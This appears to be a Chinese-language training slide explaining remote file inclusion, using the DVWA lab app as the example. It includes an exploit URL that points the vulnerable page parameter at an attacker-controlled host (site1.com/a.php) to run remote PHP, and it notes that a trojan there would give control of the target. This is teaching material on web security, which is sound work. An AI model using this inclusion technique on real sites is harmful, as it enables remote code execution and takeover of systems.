

# 如何利用远程文件包含漏洞
DVWA为例：
http://mydvwa.com/dvwa/vulnerabilities/fi/?page=file1.php
上面链接中，我们可以传递一个文件名，PHP会根据文件名进行导入操作
我们可以指定我们自己编写的地址:http://site1.com/a.php
这里会输出phpinfo()内容。
http://mydvwa.com/dvwa/vulnerabilities/fi/?page=http://site1.com/a.php
要是a.php中写入木马，可以控制对方机器